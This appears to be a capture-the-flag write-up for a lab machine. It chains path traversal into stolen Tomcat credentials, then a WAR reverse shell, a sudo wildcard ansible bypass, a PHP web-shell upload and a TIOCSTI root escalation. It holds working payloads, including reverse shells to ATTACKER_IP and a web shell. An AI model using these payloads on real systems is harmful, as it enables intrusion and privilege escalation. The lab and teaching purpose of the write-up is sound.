





Network Reconnaissance
Full TCP SYN scan with service and version detection across all ports.
shell
sudo nmap -sS -sV -sC 10.48.191.68 -p- -T4Four surfaces. Tomcat on 8080 has /manager/html and /host-manager/html returning 401 — basic auth, no creds yet. The manager is the obvious prize but it needs credentials first. Port 8888 is some unrecognised web app; that goes under the microscope next.
shell
dirsearch -u http://10.48.191.68:8080
# → /manager/html 401, /host-manager/html 401, standard Tomcat layout
whatweb http://10.48.191.68:8888
# → HTML5, PasswordField, AngularJS templates, Title[times]
dirsearch -u http://10.48.191.68:8888The dirsearch hit on 8888 that immediately stands out:
dirsearch output
[200] /../../../../../../etc/passwd
[200] /app.js
[200] /index.html200 on a traversal path means the server is passing ../ sequences directly to the filesystem — classic path traversal. This isn't subtle.Path Traversal on 8888 → Information Disclosure
The app on 8888 is a known-vulnerable Node/static server that doesn't sanitise ../ in the URL path. There's a public PoC for this class of bug. The key detail when exploiting it with curl is the --path-as-is flag — without it, curl normalises the traversal sequences client-side before they ever leave your machine, and the traversal never reaches the server.
shell
curl --path-as-is \
'http://backtrack.thm:8888/../../../../../../../../../../../../../../../../../../../../etc/passwd'Relevant accounts at the bottom of the output:
output — /etc/passwd
tomcat:x:1002:1002::/opt/tomcat:/bin/false
orville:x:1003:1003::/home/orville:/bin/bash
wilbur:x:1004:1004::/home/wilbur:/bin/bashThree real users, and — more importantly — the home directory of Tomcat is /opt/tomcat. That's the pivot. Since the traversal gives arbitrary file read, the next logical target is Tomcat's credential store.
shell — read catalina.out to confirm paths
curl --path-as-is \
'http://backtrack.thm:8888/../../../../../../../../../../../../../../../../../../../../opt/tomcat/logs/catalina.out'
# Confirms: CATALINA_BASE=/opt/tomcat, Ubuntu 20.04, kernel 5.4.0-173
# Keep that kernel version in mind — it matters for the root stepNow the money shot. Tomcat stores manager credentials in conf/tomcat-users.xml in plaintext:
shell — read tomcat-users.xml
curl --path-as-is \
'http://backtrack.thm:8888/../../../../../../../../../../../../../../../../../../../../opt/tomcat/conf/tomcat-users.xml'output — tomcat-users.xml
username="tomcat" password="OPx52k53D8..." roles="manager-gui,manager-script,..."Portable lesson: --path-as-is in curl is not an obscure flag — it's essential for any path traversal test. Without it your client silently cleans the payload and you'll think the server is patched when it isn't.
Tomcat Manager → WAR Deploy → Shell as tomcat
The GUI rejection


Here's the thing that bit me: the web GUI at /manager/html returned 403 Access Denied even with valid credentials. I burned time here thinking the password was wrong. Turns out the HTML manager is often restricted to localhost in Tomcat's valve configuration (RemoteAddrValve), while the text API endpoint has different — sometimes weaker — access controls. The fix: always test /manager/text/ directly with curl -u before assuming creds are bad.
shell — test the text API directly
curl -u 'tomcat:OPx52k53D8...' http://backtrack.thm:8080/manager/text/list
# OK — Returns deployed application listText API works. The manager lets you deploy arbitrary WAR files, Tomcat runs Java, so the payload is a JSP reverse shell packaged as a WAR.
shell — build and deploy the WAR
msfvenom -p java/jsp_shell_reverse_tcp \
LHOST=ATTACKER_IP LPORT=4445 \
-f war -o shell.war
nc -lvnp 4445 & # listener first
curl -u 'tomcat:OPx52k53D8...' \
--upload-file shell.war \
'http://backtrack.thm:8080/manager/text/deploy?path=/shell&update=true'
# OK - Deployed application at context path [/shell]
curl http://backtrack.thm:8080/shell/
# triggers the servlet → shell lands on listenerShell as tomcat. Stabilise the TTY — this matters for the ansible step later:
shell — TTY stabilisation
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z to background
stty raw -echo; fg
export TERM=xtermPrivesc 1: tomcat → wilbur — ansible-playbook Sudo Wildcard
Recon
shell
sudo -loutput
(wilbur) NOPASSWD: /usr/bin/ansible-playbook /opt/test_playbooks/*.ymltomcat can invoke ansible-playbook as wilbur without a password, on any *.yml inside /opt/test_playbooks/. The two playbooks that exist there (failed_login.yml, suspicious_ports.yml) are benign monitoring tasks. The bug isn't in their contents — it's in the sudo rule itself.
The vector
ansible-playbook executes arbitrary tasks. A shell: task is direct command execution. Any interpreter or runner that shows up in sudo -l is a GTFOBins candidate — ansible-playbook is no different.
The obstacle
shell
ls -ld /opt/test_playbooks
# drwxr-xr-x 2 wilbur wilbur ... /opt/test_playbooksThe directory is owned by wilbur. tomcat can't write there, so dropping a malicious playbook directly is off the table.
The bypass — fnmatch without FNM_PATHNAME
Sudo matches the wildcard using fnmatch(3) without the FNM_PATHNAME flag. That flag is what makes * refuse to match a literal /. Without it, * matches anything, including directory separators. So the path:
traversal argument
/opt/test_playbooks/../../tmp/pwn.ymlsatisfies the rule pattern perfectly — the literal prefix /opt/test_playbooks/ matches, * eats ../../tmp/pwn (including the slashes), and .yml closes it. Sudo accepts the argument; the kernel then resolves the ../ at file-open time and reads /tmp/pwn.yml. The "trusted directory" check means nothing.
Exploitation
shell — write the payload playbook to /tmp
printf -- '---\n- hosts: localhost\n connection: local\n gather_facts: no\n tasks:\n - shell: /bin/bash </dev/tty >/dev/tty 2>/dev/tty\n' \
> /tmp/pwn.ymlFirst run failed immediately with Errno 13 (Permission denied). My umask created the file as 600 — readable only by tomcat, which is fine for us but the process that actually opens and reads the playbook runs as wilbur. Fix:
shell
chmod 644 /tmp/pwn.yml
sudo -u wilbur /usr/bin/ansible-playbook \
/opt/test_playbooks/../../tmp/pwn.ymlThe </dev/tty >/dev/tty 2>/dev/tty in the shell task redirects the spawned bash directly to the current terminal. Interactive shell as wilbur.
realpath and validates the prefix before invoking ansible.Portable lesson: Wildcards in sudo path arguments are almost always bypassable with ../. Any sudo -l entry with a * in the path gets this treatment immediately.
Looting wilbur's Home
shell
ls -la ~output
-rw------- 1 wilbur wilbur .just_in_case.txt
-rw------- 1 wilbur wilbur from_orville.txt.just_in_case.txt is wilbur's own password — useful for a stable SSH session instead of the ansible shell:
output — .just_in_case.txt
wilbur : mYe3...from_orville.txt is a note handing over credentials to a locally-hosted image gallery, and explicitly mentioning that registration is disabled:
output — from_orville.txt
email : orville@backtrack.thm
password : W34r...Check what's listening locally:
shell
ss -tulnoutput
127.0.0.1:80 LISTEN ← the gallery, loopback only
127.0.0.1:3306 LISTEN ← MySQLPort 80 is bound exclusively to loopback — that's why nmap never saw it. It's the next target, and you can't reach it directly from outside. Time to tunnel.
SSH Tunnel → Internal Gallery
Forward the target's loopback port 80 to your local port 9999 over SSH, authenticating as wilbur with the password from the note:
attacker shell
ssh -L 9999:127.0.0.1:80 wilbur@backtrack.thm
# verify in another terminal
ss -tlnp | grep 9999 # → 127.0.0.1:9999 LISTEN
curl http://127.0.0.1:9999/ # → Orville's Gallery HTML
Log in with orville's credentials from the note. Registration being explicitly disabled is the reason those credentials mattered — there's no self-signup path.
curl -x http://127.0.0.1:8080 ...), configure the browser's localhost bypass (network.proxy.allow_hijacking_localhost = true in Firefox about:config), or just use Burp's built-in browser which has no localhost-bypass problem.Privesc 2: wilbur → orville — Upload Filter Bypass + Path Traversal
Recon

The dashboard has an image upload that filters on extension. The gallery HTML itself gives away the intended bypass — uploaded files get referenced as uploads/shell.png.php, meaning the app stores the filename verbatim and Apache still executes anything whose last extension is .php.
Two things have to line up simultaneously:
1. Double extension .png.php — passes any "must look like an image" suffix check (last explicit check sees .png), while Apache's MIME handler still treats it as PHP because the real last extension is .php.
2. Path traversal in the filename field — the uploads/ directory has PHP execution disabled (files there are served as plaintext, not executed). The payload has to land one level up in the web root, where PHP runs fine. That means ../shell.png.php as the filename — a raw ../ in the multipart filename parameter.
The POST — built in Burp Repeater
http — burp repeater
POST /dashboard.php HTTP/1.1
Host: 127.0.0.1:9999
Cookie: PHPSESSID=...; _xsrf=...; username=...
Content-Type: multipart/form-data; boundary=----wb
Connection: close
------wb
Content-Disposition: form-data; name="image"; filename="../shell.png.php"
Content-Type: image/png
<?php system($_GET['cmd']); ?>
------wb--Details that bit me during this step: the blank line between the part headers and the PHP payload is mandatory in multipart bodies — skip it and the server won't recognise the data. Content-Length must be exact — let Burp update it. And critically: a single raw ../ worked where double-URL-encoding (%252e%252e%252f) sent the file to the wrong place. The traversal copy is visible in the gallery as uploads/../shell.png.php, which confirms it landed in the web root.
Verifying the bypass
shell — confirm which path executes
curl 'http://127.0.0.1:9999/uploads/shell.png.php?cmd=id'
# → returns raw PHP source — uploads/ is PHP-disabled
curl 'http://127.0.0.1:9999/shell.png.php?cmd=whoami'
# → orville ✓ RCE confirmed at web rootReverse shell
Base64-wrap the payload so special characters don't get mangled by URL encoding, then deliver it. Use your THM tun0 address — not a LAN 192.168.x IP. The target lives inside the THM network and can only route back through the VPN.
shell
echo -n 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' | base64
# URL-encode the + and = chars in the b64 output as %2B, %3D
nc -lvnp 4444
curl 'http://127.0.0.1:9999/shell.png.php?cmd=echo%20<b64>%7Cbase64%20-d%7Cbash'shell — confirmation
id
uid=1003(orville) gid=1003(orville) groups=1003(orville)Stabilise the TTY again the same way as before. Second flag.
php_flag engine off in htaccess — not as a security control but as defence in depth.Portable lesson: If uploads land in a directory where PHP is disabled, your first instinct should be path traversal to reach an executable path. The filter and the execution restriction are two separate controls and defeating one doesn't automatically defeat the other.
Privesc 3: orville → root — TTY Pushback via TIOCSTI
Discovery
Orville's home has a web_snapshot.zip regenerated on a schedule. No user crontab, nothing in /etc/cron.*. When cron doesn't explain a recurring job, watch the process table live. Drop pspy64 to the box (small HTTP server on your attacker machine + wget on target, or scp with wilbur's SSH creds):
shell
# attacker side
python3 -m http.server 8000
# on target as orville
wget http://ATTACKER_IP:8000/pspy64 -O /tmp/pspy64
chmod +x /tmp/pspy64
/tmp/pspy64
su - orville, then a zip of the web root executes as orville. Root periodically becomes orville to take the snapshot.Why su - is the opening
The dash flag makes it a full login shell. That means root's su - orville executes orville's startup scripts — including .bashrc. And orville owns .bashrc. So I can make the root-initiated process run arbitrary code at switch time.
The catch: by the time .bashrc is read, privilege has already dropped. The process tree after the switch looks like this:
process tree
root shell (parent, uid 0)
└── su - orville
└── orville shell (child, uid 1003) ← .bashrc runs hereRunning chmod +s /bin/bash directly in .bashrc just runs it as orville — useless. A plain exit kills the child and tears down the snapshot job without gaining anything. The privilege is sitting in the parent process, one level up. The question is how to get code to run there.
SIGSTOP + TIOCSTI
This is one of the oldest privesc vectors in Unix. The mechanism is two steps:
Step 1 — SIGSTOP the parent. Send SIGSTOP to the parent process (the root shell). This freezes it — crucially, it doesn't kill it. Because the foreground process stopped, the controlling TTY hands input focus back to whoever is now in the foreground — which means the TTY is now listening as though root typed something.
Step 2 — TIOCSTI injection. Use the TIOCSTI ioctl ("simulate terminal input") to inject characters into the TTY's input buffer, one byte at a time. Each byte looks indistinguishable from a real keystroke. The trailing \n submits the line. Since focus is back on the root context, the root shell reads those characters as its own input and executes them. Privilege here comes from the process reading the terminal — root's shell — not from the process calling the ioctl, which is still orville.
python — /dev/shm/backtoroot.py
#!/usr/bin/env python3
import fcntl, termios, os, signal
os.kill(os.getppid(), signal.SIGSTOP)
for char in 'chmod +s /bin/bash\n':
fcntl.ioctl(0, termios.TIOCSTI, char)Place it in /dev/shm/ — tmpfs, world-writable, doesn't touch the physical disk. Wire it into orville's .bashrc:
shell
echo 'python3 /dev/shm/backtoroot.py' >> /home/orville/.bashrcWait for the scheduled job to run. When root does su - orville, .bashrc fires the script, the script stops root's shell and injects chmod +s /bin/bash into it. After a moment:
shell
ls -la /bin/bash
-rwsr-xr-x 1 root root ... /bin/bash
bash -p
id
uid=1003(orville) gid=1003(orville) euid=0(root) groups=1003(orville)bash -p is the privilege-preserving flag. When bash detects that its effective UID differs from its real UID (which is exactly what the SUID bit causes), it normally drops back to the real UID as a safety measure. -p disables that safety and keeps the elevated euid=0. Root.
TIOCSTI has leaked privileges across shared TTYs since ancient Unix. From Linux 6.2 it can be disabled via the dev.tty.legacy_tiocsti sysctl, and many modern distros ship it off by default. This box runs Ubuntu 20.04 / kernel 5.4.0, where it's fully available. On a current system you'd be looking at TIOCLINUX or other pushback paths instead.TIOCSTI — it's that root runs su - into a user whose .bashrc that user controls, over an interactive TTY. Correct pattern: use su -s /bin/sh -c 'command' with a hardcoded shell and no login scripts, or runuser -l with a clean, non-interactive environment. Never enter another user's writable login environment as root. A privileged process reading a user-writable startup script over a shared TTY is a TTY pushback waiting to happen.Portable lesson: When pspy shows root doing su - someuser where someuser is your current user, and you control their home directory, SIGSTOP + TIOCSTI is the standard technique. The pattern is memorable: stop the parent, steal its terminal.
Chain Summary
Four completely different bug classes, each one only reachable because the previous step gave up the exact piece of information the next one needed.
/manager/html and /manager/text/ can have different valve configurations. The text API is where automation scripts authenticate — it's often less locked-down.fnmatch without FNM_PATHNAME matches /, making the "safe directory" restriction meaningless. Enumerate specific files or wrap calls in a validator that canonicalises with realpath.../ in the filename field isn't filtered, you can escape the restricted directory entirely. Two independent controls must both hold.su - youruser, check if you control their .bashrc. SIGSTOP + TIOCSTI is the standard technique. The privilege comes from the process reading the terminal, not the one writing to it.